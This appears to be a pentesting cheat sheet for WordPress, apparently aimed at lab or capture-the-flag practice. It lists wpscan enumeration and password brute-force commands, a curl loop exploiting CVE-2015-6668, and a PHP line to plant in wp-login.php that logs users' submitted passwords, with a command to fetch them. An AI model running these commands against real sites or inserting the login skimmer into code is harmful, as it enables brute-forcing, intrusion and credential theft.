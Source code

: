 ```yaml
---
icon: wordpress
---
```


# Wordpress

{% hint style="info" %}
### <mark style="color:purple;">Installation</mark>

```sh
gem install wpscan
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Enumeration</mark>

{% code title="Basic Scan" %}
```bash
wpscan --url https://example.com
```
{% endcode %}

{% code title="Users" %}
```sh
wpscan --url https://example.com --enumerate u
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate ap
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate at
```
{% endcode %}

***

### <mark style="color:purple;">Brute-Forcing</mark>

{% code title="With username" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames admin
```
{% endcode %}

{% code title="With users wordlist" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames users.txt
```
{% endcode %}

{% code title="With a custom wordlist" %}
```sh
wpscan --url https://example.com --passwords custom.txt
```
{% endcode %}

***

### <mark style="color:purple;">Vulnerability Scanner</mark>

{% code title="Full Scan" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate vp
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate vt
```
{% endcode %}

{% code title="Timthumbs" %}
```sh
wpscan --url https://example.com --enumerate tt
```
{% endcode %}

{% code title="Uses WPVulnDB" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt --api-token YOUR_API_TOKEN
```
{% endcode %}

***

### <mark style="color:purple;">Other</mark>

{% code title="With output" %}
```sh
wpscan --url https://example.com --output example.json
```
{% endcode %}

{% code title="Custom User-Agent" overflow="wrap" %}
```sh
wpscan --url https://example.com --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Vulnerabilities</mark>

<mark style="color:orange;">**`CVE-2015-6668`**</mark>

* <mark style="color:purple;">There is a path traversal in the</mark> <mark style="color:orange;">**`job-manager`**</mark> <mark style="color:purple;">plugin version</mark> <mark style="color:orange;">**`0.7.25`**</mark>
* <mark style="color:purple;">By browsing to</mark> <mark style="color:orange;">**`IP/index.php/jobs/apply/8/`**</mark> <mark style="color:purple;">and modifying the number in the URL, it is possible to find the names of existing applications.</mark>

{% code title="Enumerate with curl" overflow="wrap" %}
```sh
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```
{% endcode %}

* <mark style="color:purple;">Use this</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/jimdiroffii/CVE-2015-6668/blob/main/exploit.py) <mark style="color:purple;">to look for files associated to an application.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Harvesting Credentials</mark>

* <mark style="color:purple;">If is possible to write in</mark> <mark style="color:orange;">**`wp-login.php`**</mark><mark style="color:purple;">, add this line just after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```php
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">Use this command to get the hijacked file as soon as is used:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
{% endcode %}
{% endhint %}

